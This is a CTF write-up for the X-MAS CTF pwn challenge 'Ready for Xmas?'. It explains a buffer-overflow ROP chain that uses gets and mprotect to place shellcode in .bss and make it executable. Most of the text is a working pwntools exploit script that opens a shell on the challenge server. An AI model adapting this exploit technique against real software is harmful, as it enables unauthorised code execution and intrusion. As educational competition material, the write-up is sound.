


## XMAS CTF: Ready for Xmas? [pwn]


#### Buffer overflow challenge with NX as the only enabled protection. Performing the normal ret2system ropchain was a failed attempt since I kept getting SIGBUS signals. So I had to change the plan by reusing the functions used in the challenge.

#### The approach is simple, to call gets in order for us to place our shellcode in the .bss section afterwhich we call mprotect and set it to an rwx region. Since .bss is not affected by PIE/ASLR, we can simply jump to it and execute our shellcode.

```python
from pwn import *

context.arch = 'amd64'
#p = process('./chall')
p = remote("challs.xmas.htsp.ro", 2001)
binary = ELF('./chall', checksec = False)
breakpoints = ['break *0x400826']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
print(p.recvuntil('Christmas?\n'))

#
pop_rdi = 0x00000000004008e3
pop_rsi = 0x00000000004008e1
mov_rdx = 0x0000000000400786
ret = 0x00000000004005e6
mprotect = 0x40086a

#: get shellcode from user input, store into .bss
exploit = cyclic(72)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(0x601000)
exploit += p64(binary.symbols['gets'])

#: try to memset .bss as rwx
exploit += p64(pop_rdi)
exploit += p64(0x601000)
exploit += p64(pop_rsi)
exploit += p64(0x1000)
exploit += p64(0x7)
exploit += p64(mov_rdx)
exploit += p64(0x0)
exploit += p64(binary.symbols['mprotect'])
exploit += p64(0x601000)

p.sendline(exploit)
p.sendline(asm(shellcraft.sh()))
p.interactive()
```

